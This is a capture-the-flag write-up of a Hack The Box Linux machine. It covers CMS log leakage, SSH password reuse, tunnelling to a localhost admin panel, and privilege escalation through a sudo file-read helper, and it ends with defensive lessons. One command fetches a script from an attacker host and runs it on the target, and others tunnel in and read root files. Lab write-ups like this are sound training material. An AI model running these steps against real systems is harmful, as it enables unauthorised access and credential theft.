| | |
|---|---|
| **Platform** | Hack The Box |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Status** | ✅ Rooted (27m) |
| **Key techniques** | OceanCMS log-poisoning, password reuse, localhost service pivot via SSH tunnel, sudo file-read primitive |

---

## TL;DR

The web app is a small CMS (`OceanCMS`) whose own log file leaks a session
token, giving admin access. That credential reuses over SSH as the local
user `amay`. Inside the box, an admin UI listens only on `127.0.0.1:55743`;
tunnelling it out through SSH exposes a log/file-viewer endpoint that
hands over credentials for the next user, `nicolas`. Finally, `nicolas`
can run a system-monitoring script under `sudo` with an unsanitised
file-read parameter — pointing it at anything under `/root` closes the
box.

---

## Recon & Enumeration

```bash
sudo nmap -p- -sCV <TARGET_IP>
```



- **22** — SSH
- **80** — HTTP (nginx)

---

## Web — OceanCMS log poisoning

The site is powered by `OceanCMS`. The version banner surfaced a public
issue: the application logs sensitive values (including administrator
session tokens) to a log file that is itself web-reachable.




Reading the log yielded a set of usable credentials:



---

## Foothold — SSH via password reuse

```bash
ssh amay@<TARGET_IP>
```



`user.txt` was in `~/user.txt` — the first flag:



---

## Lateral movement — amay → nicolas

`ss -tulpn` from inside the box showed a service listening only on
localhost:



Tunnelled it out with an SSH local forward:

```bash
ssh -L 55743:127.0.0.1:55743 amay@<TARGET_IP>
```

The admin UI exposes a log/file viewer that returns arbitrary file
contents, producing credentials usable as the next user:



```bash
ssh nicolas@<TARGET_IP>
```



---

## Privilege escalation — sudo file-read

Dropped LinPEAS to confirm the picture (habit; the sudo entry is the
one that matters):

```bash
# Kali
python3 -m http.server 80

# Target
wget http://<ATTACKER_IP>/linpeas.sh -O /tmp/l.sh && chmod +x /tmp/l.sh && ./tmp/l.sh
```




`sudo -l` showed a system monitor allowed as root without a password:



The script reads a file whose path is user-controlled. Pointing it at
anything under `/root/` returned its contents — including material that
provided a root shell / private key:

```bash
sudo /path/to/monitor <file>
```




---

## Lessons Learned

- **Application logs are a foothold surface.** Any CMS log that stores
  full HTTP headers or authentication material and is served by the
  same webserver is one directory listing away from becoming an
  auth-bypass primitive.
- **Localhost-only services are a lateral move waiting to happen.**
  Any `127.0.0.1:*` line in `ss -tulpn` from a low-priv shell is worth
  tunnelling out; the admin panels behind them rarely enforce the same
  security posture as the public front door.
- **Sudo rules that pass a filename to a helper are almost always
  read-file primitives** — because the helper opens the argument before
  it drops privileges. Anything under `/root` is fair game.

---

## Time to root
**27m 22s**
